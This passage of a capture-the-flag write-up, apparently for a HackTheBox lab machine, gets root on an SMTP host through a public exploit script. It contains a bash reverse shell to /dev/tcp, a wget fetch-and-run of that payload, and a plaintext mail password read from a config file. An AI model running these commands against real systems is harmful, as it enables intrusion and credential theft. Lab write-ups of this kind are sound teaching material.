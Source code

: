 ```bash
13:33:14.285406 IP 10.10.14.1 > 10.10.14.2: ICMP host 10.10.10.204 unreachable, length 185
```
Now we have received the ping, so let's get a reverse shell, since we already know that it is a linux machine we can create a bash file that is called index.html with this content:
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.2/443 0>&1
```
Then start a web server on our machine and run the script as follows:
```bash
proxychains -q python3 47984.py 10.241.251.113 25 "wget 10.10.14.2 -O /opt/rev"
```
This will move the index.html file into the /opt folder and then save it with the name "rev". Finally we can run such file like this:
```bash
proxychains -q python3 47984.py 10.241.251.113 25 "bash /opt/rev"
```
And we have root on the machine directly:
```bash
root@smtp:/home/j.nakazawa# whoami
whoami
root
```
However this machine is not the intended to be exploited so we need to keep searching on it to find interesting information, such as: ^9ef584
```bash
root@smtp:/home/j.nakazawa# cat .msmtprc 
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60
```
While trying to access to the real machine via ssh we find the following error:
```bash
ssh j.nakazawa@10.10.10.224                                    
j.nakazawa@10.10.10.224's password: 
Permission denied, please try again.
j.nakazawa@10.10.10.224's password: 
Permission denied, please try again.
j.nakazawa@10.10.10.224's password: 
j.nakazawa@10.10.10.224: Permission denied (gssapi-keyex,gssapi-with-mic,password).
```
Let's debug the output of the SSH connection with (-v):
```bash
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: gssapi-with-mic
```
We get a message about gssapi authentication, let's research about it:
![[Pasted image 20230123131141.png]]